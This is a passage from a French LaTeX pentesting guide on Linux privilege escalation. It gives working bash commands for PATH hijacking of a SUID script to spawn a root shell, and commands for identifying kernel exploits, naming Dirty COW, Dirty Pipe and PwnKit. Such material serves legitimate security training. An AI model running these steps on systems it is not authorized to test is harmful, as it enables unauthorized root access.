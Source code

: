 \subsubsection{PATH Hijacking}

Si un script exécuté par \texttt{root} appelle un binaire sans chemin absolu
et que le \texttt{PATH} est contrôlable par l'utilisateur, il est possible
d'injecter un faux binaire.

\begin{lstlisting}[language=bash, caption={PATH Hijacking}]
# Script vulnérable : /usr/local/bin/syscheck (SUID root)
# Contenu du script : service apache status (sans /usr/sbin/service)

# Créer un faux binaire 'service' dans un répertoire contrôlé
echo '#!/bin/bash\n/bin/bash -p' > /tmp/service
chmod +x /tmp/service

# Modifier le PATH pour pointer vers /tmp en premier
export PATH=/tmp:$PATH

# Exécuter le binaire SUID
/usr/local/bin/syscheck
# Le faux 'service' s'exécute avec les droits root
\end{lstlisting}

\subsubsection{Kernel Exploits}

En dernier recours, l'exploitation de vulnérabilités kernel peut élever les
droits mais présente un risque de crash système.

\begin{lstlisting}[language=bash, caption={Identification et exploitation de kernel exploits}]
# Identifier la version du kernel
uname -a
cat /proc/version

# Rechercher des exploits connus
searchsploit linux kernel $(uname -r | cut -d. -f1,2)

# Exemples courants :
# Dirty COW (CVE-2016-5195), kernel < 4.8.3
# Dirty Pipe (CVE-2022-0847), kernel 5.8 ≤ x < 5.16.11
# PwnKit (CVE-2021-4034), pkexec, toutes distributions Linux
\end{lstlisting}

\section{Escalade de Privilèges Windows}
\label{sec:privesc_windows}


